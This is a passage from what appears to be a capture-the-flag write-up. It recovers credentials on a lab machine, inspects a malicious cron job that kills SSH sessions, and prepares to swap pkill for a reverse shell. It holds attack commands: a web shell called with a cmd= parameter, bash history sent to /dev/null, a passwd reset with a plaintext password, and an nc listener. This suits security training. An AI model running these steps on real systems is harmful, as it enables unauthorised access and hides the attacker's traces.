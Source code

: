   ./cve.sh
  ./cve-patch.sh
  vi /etc/cron.d/persistence
  echo -e "dHY5pzmNYoETv7SUaY\nthisistheway123\nthisistheway123" | passwd
  ls -sf /dev/null /home/lachlan/.bash_history
  
  boom!
  ```
  
- OK, so now we have credentials `lachlan:thisistheway123` and when I connected with SSH, I got kicked out of it immediately.

  ```
  ssh lachlan@10.10.151.54
  thisistheway123
  
  lachlan@10.10.151.54's password: 
  Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-109-generic x86_64)
  [SNIP!]
  Last login: Thu May  5 04:39:19 2022 from 192.168.56.1
  $ nope
  Connection to 10.10.151.54 closed.
  ```
  
- NOPE! Well, let's investigate what is going on here. First, I checked the cronjob file `/etc/cron.d/persistence`.

  ```
  http://10.10.151.54/cvs/shell.pdf.php?cmd=cat%20/etc/cron.d/persistence

  PATH=/home/lachlan/bin:/bin:/usr/bin
  # * * * * * root backup.sh
  * * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  * * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  * * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  * * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  * * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  * * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
  
  boom!
  ```

- OK, so it's a malicous cronjob that will kick anyone who logs in with SSH. In order to bypass it, we will overwrite `pkill` with reverse shell. First start a listener and copy this payload:

  ```
  nc -lvnp 4444
  listening on [any] 4444 ...
  